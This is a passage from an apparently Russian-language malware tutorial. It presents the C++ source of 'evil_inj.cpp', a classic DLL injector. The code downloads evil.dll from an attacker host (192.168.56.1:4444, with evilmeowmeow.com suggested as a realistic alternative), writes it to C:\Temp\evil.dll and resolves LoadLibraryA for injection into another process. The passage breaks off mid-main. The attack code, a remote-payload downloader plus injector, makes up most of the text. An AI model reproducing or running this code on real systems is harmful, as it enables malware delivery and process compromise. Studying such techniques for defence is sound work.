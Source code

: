 Эта функция загружает `evil.dll` с машины атакующего (`192.168.56.1:4444`, но в реальном сценарии это может выглядеть как `evilmeowmeow.com:80`) и сохраняет её в файл `C:\\Temp\\evil.dll`.   

Затем мы вызываем этот код в `main()`. Полный исходный код нашего инъектора:

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#pragma comment (lib, "wininet.lib")

char evilDLL[] = "C:\\Temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", 
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, 
    dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, 
    &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}

// classic DLL injection logic
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
  char* evil = getEvil();

  // parse process ID
```